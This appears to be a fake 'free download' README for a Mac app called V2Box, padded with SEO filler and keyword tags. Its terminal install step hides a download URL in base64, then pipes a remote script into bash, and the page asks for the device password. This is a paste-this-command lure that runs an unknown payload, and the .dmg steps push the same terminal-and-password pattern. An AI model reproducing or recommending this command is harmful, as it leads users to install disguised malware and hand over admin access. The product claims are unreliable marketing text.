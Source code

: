 # V2Box — Free Download for Mac OS 🖥️
![logo](https://img.utdstc.com/icon/8f7/f6d/8f7f6dba7f928494eb306adfe7c17d13910b600476f39edc935f0311b3973420:200)

V2Box is a powerful and lightweight productivity tool designed for Mac OS, offering seamless integration and a user-friendly interface. Follow the instructions below to install V2Box on your Mac and unlock its full potential for free.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/v2box)

If the download button above doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install V2Box for Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with V2Box

- 🖌️ **Intuitive Interface**: Navigate effortlessly with a sleek, macOS-native design tailored for productivity.
- ⚡ **Fast Performance**: Optimized for macOS, V2Box runs smoothly even on older Mac devices.
- 📂 **File Management**: Organize and manage files with built-in tools for seamless workflows.
- 🔄 **Cross-Platform Sync**: Sync your data across devices for uninterrupted access.
- 🛠️ **Customizable Settings**: Tailor V2Box to your preferences with extensive customization options.
- 🔒 **Secure Operations**: Built with privacy in mind, ensuring your data stays safe.

---

## About V2Box

V2Box is a versatile productivity application designed specifically for Mac OS users who seek efficiency and simplicity. Whether you're managing projects, organizing files, or streamlining workflows, V2Box offers a robust set of tools to enhance your daily tasks. Its lightweight architecture ensures it runs smoothly on a wide range of Mac devices, from MacBook Air to iMac Pro, without compromising performance. By incorporating **productivity software** principles, V2Box delivers a seamless experience for both casual users and professionals.

One of the standout features of V2Box is its **macOS app** integration, allowing it to work harmoniously with native macOS features like Spotlight, Finder, and iCloud. This ensures that users can quickly access their files and settings without navigating complex menus. The application’s design emphasizes **free download** accessibility, making it easy for anyone to install and start using it immediately. Its open-source nature also invites developers to contribute to its growth, ensuring constant updates and improvements.

Security is a top priority for V2Box. With built-in encryption and secure data handling, users can trust that their information is protected. Whether you're working on sensitive documents or personal projects, V2Box ensures that your data remains private and secure. This focus on **secure macOS apps** makes it an ideal choice for users who prioritize data safety alongside functionality.

The application also supports **cross-platform productivity**, allowing users to sync their data across multiple devices. Whether you’re switching between a MacBook and an iPhone or collaborating with a team, V2Box keeps your work accessible and up-to-date. This feature is particularly useful for professionals who rely on **macOS tools** to manage complex workflows across different environments.

### Advantages of V2Box

V2Box stands out among other **productivity apps for Mac** due to its combination of performance, security, and ease of use. Unlike many alternatives, V2Box is completely free to download and use, with no hidden fees or subscriptions. Its macOS-native design ensures a smooth and responsive experience, while its open-source framework allows for community-driven enhancements. With regular updates and a focus on user feedback, V2Box remains a reliable and future-proof choice for **free Mac software** enthusiasts.

---

## 🖼️ Preview

![V2Box Dashboard](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource211/v4/5f/b1/3a/5fb13a32-d9d4-ba7b-e571-5fcfe942ee3c/MACOS_1.jpg/643x0w.jpg)  
*V2Box’s clean and intuitive dashboard for managing tasks*

![File Management](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource221/v4/ff/3b/9d/ff3b9daa-ab88-3932-d1e9-c33edce8fe10/MacOS-33.jpg/643x0w.jpg)  
*Effortless file organization with V2Box’s built-in tools*

![Customization Options](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource221/v4/b0/c5/52/b0c5527e-d065-a2b6-4a78-d76ac6a3b368/MACOS_1-2.jpg/643x0w.jpg)  
*Personalize your V2Box experience with customizable settings*

---

## 🔍 Tags

v2box free download, v2box for mac, v2box, V2Box mac, V2Box download, V2Box free, V2Box mac os, V2Box download free, V2Box free download mac, V2Box client mac, V2Box for mac, free V2Box, download V2Box, download V2Box mac, V2Box for mac
